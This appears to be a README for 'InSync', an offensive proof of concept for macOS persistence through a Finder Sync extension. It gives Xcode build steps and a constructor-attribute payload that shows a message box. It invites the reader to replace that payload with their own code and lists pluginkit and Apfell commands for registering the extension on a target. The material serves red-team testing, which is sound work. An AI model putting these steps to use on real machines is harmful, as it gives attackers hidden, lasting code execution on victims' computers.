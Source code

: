 # InSync
Finder Plugin Persistence. Attached is a PoC with a simple message box execution

# Resource
https://objective-see.com/blog/blog_0x11.html

## Steps to execute the attached Finder Plugin Extension (InSync)
1. Open the ```InSync.xcodeproj``` file in XCode
2. Change the code on line 17 of the methods file ```FinderSync.m``` with own Objective C code
3. In XCode Project-> Build
4. Place the app on target
5. Register Finder Extenstion Plugin
* Manually below of use the jxa script (FinderSyncPlugins.js)
    1. pluginkit -a /some/path/persist.appex
        1. pluginkit -a InSync.app/Contents/PlugIns/FinderSync.appex
    2. pluginkit -e use -i <finder sync's bundle id>
        1. pluginkit -e use -i com.apple.InSync.FinderSync
* Jxa script (FinderSyncPlugins.js) in Apfell
  1. jsimport {/path/to/FinderSyncPlugins.js}
  2. jsimport_call FinderSyncPlugins('/path/to/InSync.app')


## Instructions on how the attached Finder Plugin Extension was built
1. Xcode →New Project→Application
2. Change the Bundle Name
3. Select main project and select add target (+) on bottom
4. Add the Finder Sync Extension
5. Add the Project Name (take note of the Bundle Identifier)
6. Go to FinderSync folder and select the method file (.m)
7. Add the following on line 17
    1. Added the following for a PoC of loading the plugin (stolen from xorrior) or replace with own Objective-C code

  ```
    //automatically invoked when bundle is loaded
    __attribute__((constructor)) static void byebyebye()
    {
    // Just a message box payload
    NSAlert *alert = [[NSAlert alloc] init];
    [alert setMessageText:@"Install complete"];
    [alert addButtonWithTitle:@"OK"];
    [alert setAlertStyle:NSAlertStyleInformational];
    [alert runModal];
    }
  ```

8. Product → Build
9. Register the plugin Manually below of use the jxa script (FinderSyncPlugins.js)
    1. pluginkit -a /some/path/persist.appex
        1. pluginkit -a InSync.app/Contents/PlugIns/FinderSync.appex
    2. pluginkit -e use -i <finder sync's bundle id>
        1. pluginkit -e use -i com.apple.InSync.FinderSync
